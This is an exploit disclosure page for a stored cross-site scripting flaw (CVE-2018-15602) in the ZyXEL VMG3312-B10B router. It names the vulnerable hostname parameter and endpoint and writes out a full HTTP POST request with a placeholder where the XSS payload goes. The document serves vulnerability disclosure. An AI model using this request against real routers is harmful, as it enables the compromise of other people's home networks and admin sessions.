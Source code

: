 ```yaml
---
title: "ZyXEL VMG3312-B10B Stored Cross-Site Scripting"
collection: exploits
excerpt: "ZyXEL VMG3312-B10B Stored Cross-Site Scripting"
permalink: /exploit/zyxel-stored-xss-exploit
date: 2018-08-21
tags:
  - exploit
  - CVE 2018 15602
  - zyxel
  - Stored XSS
  - ZyXEL VMG3312 B10B router
---
```


**Exploit Author :** Samet SAHIN  
**Date :** 21.08.2018  
**Software Link :** ftp://ftp.zyxel.com.tr/ZyXEL_URUNLERI/MODEMLER/VDSL_MODEMLER/VMG3312-B10B/  
**Vendor Homepage :** https://www.zyxel.com/  
**Version :** ZyXEL VMG3312-B10B  
**Tested on :** Mozilla Firefox 61.0.2 && Google Chrome 67.0.3396.99  
**Category :** Stored XSS  
**CVE ID :** CVE-2018-15602  

<hr><br>  

**POST REQUEST :**

POST /pages/connectionStatus/connectionStatus-hostEntry.cmd HTTP/1.1  
Host: 192.168.1.1  
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:54.0) Gecko/20100101 Firefox/54.0  
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8  
Accept-Language: tr-TR,tr;q=0.8,en-US;q=0.5,en;q=0.3  
Accept-Encoding: gzip, deflate  
Referer: http://192.168.1.1/index.html  
Content-Type: application/x-www-form-urlencoded  
Content-Length: 79  
Cookie: SESSION=529313605  
Connection: close  
Upgrade-Insecure-Requests: 1  
action=edit&oldip=192.168.1.36&hosttype=&sessionKey=1997367832&**hostname**=**XSS PAYLOAD**  

**Vulnerable Page :**
/pages/connectionStatus/connectionStatus-hostEntry.cmd  
**Vulnerable Parameter :**
hostname


Exploit DB : <a href="https://www.exploit-db.com/exploits/45236">45236</a>